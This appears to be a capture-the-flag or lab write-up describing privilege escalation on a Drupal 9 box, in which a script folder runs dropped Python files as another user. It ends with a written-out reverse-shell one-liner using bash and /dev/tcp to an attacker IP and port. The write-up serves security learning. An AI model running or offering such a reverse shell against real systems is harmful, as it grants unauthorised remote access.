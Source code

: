 <img width="749" alt="image" src="https://user-images.githubusercontent.com/59768512/164413183-b75a837e-0178-47c0-93b5-fd7dfcb6c662.png">


The Drupal version is Drupal 9:
![image](https://user-images.githubusercontent.com/70077872/164648153-d13cb920-33c4-4213-83f7-b7c1da267191.png)







![image](https://user-images.githubusercontent.com/70077872/164681966-e03a50e1-90cf-4c51-b440-9ac737f28760.png)


![image](https://user-images.githubusercontent.com/70077872/166906144-583269d0-9c37-4ebc-8404-3d39e7c0de05.png)

# Last


After we have gained access to `www-data`, it is time to see if we can gain access the first user. Firstly, by going to `/home/user` reveals that there are is a folder called "coding_project". This folder contains a README file, a shell script and a Scripts folder. As the README file states, the user is tired of people asking him/her to run Python files, so the file states: "to avoid further work on my part you can run any file as me instead!". This is a potential vulnerability as files put in the folder `/scripts` is essentially run with the privileges of the user:

![image](https://user-images.githubusercontent.com/70077872/167387362-d4e82870-b257-4335-8acb-e25c97628496.png)


The `run_files.sh` is just a script that enter the script folder, runs the file(s) with python3, and removes it afterwards. Here, we can put in a file run as the user to try to gain access to the user account:

![image](https://user-images.githubusercontent.com/70077872/167388008-555a28ea-6279-40cc-841b-08f8c5f108c5.png)

A common attack vector would be to execute a python file that runs a reverse shell back to our machine. Since the script is run with user privileges, the reverse shell will ensure the connection runs with the user; giving us access. To execute this, and to allow python to run bash commands, we use the `os.system()` function which allows us to execute any command. The following code is a one-liner which is able to exploit this vulnerability:

echo "import os;os.system(\"/bin/bash -c \'bash -i >& /dev/tcp/10.225.149.204/9995 0>&1\'\")" > exploit.py
